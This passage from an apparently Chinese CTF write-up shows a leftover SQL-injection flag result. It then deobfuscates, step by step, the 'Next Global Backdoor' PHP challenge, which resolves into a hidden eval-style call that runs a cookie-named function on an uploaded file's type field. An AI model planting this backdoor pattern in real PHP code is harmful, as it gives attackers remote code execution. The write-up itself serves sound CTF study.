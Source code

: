 ```
||     || 


-->We couldn't find your username, but it sounds like this user:<br>flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}<br>

```

SQL语句不够溜啊QAQ

0x05 Web 200 Next Global Backdoor
---------------------------------

* * *

> Category: Web
> 
> Points: 150
> 
> Author: reiners
> 
> Description: J0nas is a simple man. He specializes in only one thing: Building the most beautiful back doors that you’ve ever seen. This gem was used in multiple saloons, letting only the most skilled c0wb0ys pass. https://wildwildweb.fluxfingers.net:1425/index.php index.phps

```
<?php 

    $v1 = next(neXt(${'next'}['next']))
    // step 1
    // @$GLOBALS=$GLOBALS{next}=next($GLOBALS{'GLOBALS'})[$GLOBALS['next']['next']=next($GLOBALS)['GLOBALS']][$next['GLOBALS']=next($GLOBALS[GLOBALS]['GLOBALS'])[$next['next']]][$next['GLOBALS']=next($next['GLOBALS'])][$GLOBALS[next]['next']($GLOBALS['next']{'GLOBALS'})]=$v1;
    // step 2 globals next += 1
    //@$GLOBALS=$GLOBALS{next}=$_POST[$GLOBALS['next']['next']=next($GLOBALS)['GLOBALS']][$next['GLOBALS']=next($GLOBALS[GLOBALS]['GLOBALS'])[$next['next']]][$next['GLOBALS']=next($next['GLOBALS'])][$GLOBALS[next]['next']($GLOBALS['next']{'GLOBALS'})]=$v1;
    // step 3 globals next += 1
    // $v2 = $next['next']=$_COOKIE['GLOBALS'];
    // @$GLOBALS=$GLOBALS{next}=$_POST[$v2][$next['GLOBALS']=next($GLOBALS[GLOBALS]['GLOBALS'])[$next['next']]][$next['GLOBALS']=next($next['GLOBALS'])][$GLOBALS[next]['next']($GLOBALS['next']{'GLOBALS'})]=$v1;
    // step 4 globals next += 1
    // $GLOBALS[GLOBALS]['GLOBALS'] = $GLOBALS
    // $v2 = $next['next']=$_COOKIE['GLOBALS'];
    // $v3 = $next['GLOBALS']=$_FILES[$v2]
    // @$GLOBALS=$GLOBALS{next}=$_POST[$v2][$v3][$next['GLOBALS']=next($next['GLOBALS'])][$GLOBALS[next]['next']($GLOBALS['next']{'GLOBALS'})]=$v1;
    // step 5 
    // $v2 = $next['next']=$_COOKIE['GLOBALS'];
    // $v3 = $next['GLOBALS']=$_FILES[$v2];
    // next($_FILE) = $_FILES[$v2]['type']
    // $v4 = $next['GLOBALS']=$_FILES[$v2]['type'];
    // @$GLOBALS=$GLOBALS{next}=$_POST[$v2][$v3][$v4][$GLOBALS[next]['next']($GLOBALS['next']{'GLOBALS'})]=$v1;
    // step 6
    $v2 = $next['next']=$_COOKIE['GLOBALS'];
    $v3 = $next['GLOBALS']=$_FILES[$v2];
    $v4 = $next['GLOBALS']=$_FILES[$v2]['type'];
    @$GLOBALS=$GLOBALS{next}=$_POST[$v2][$v3][$v4][$_COOKIE['GLOBALS']($_FILES[$v2]['type'])]=$v1;

?>

```
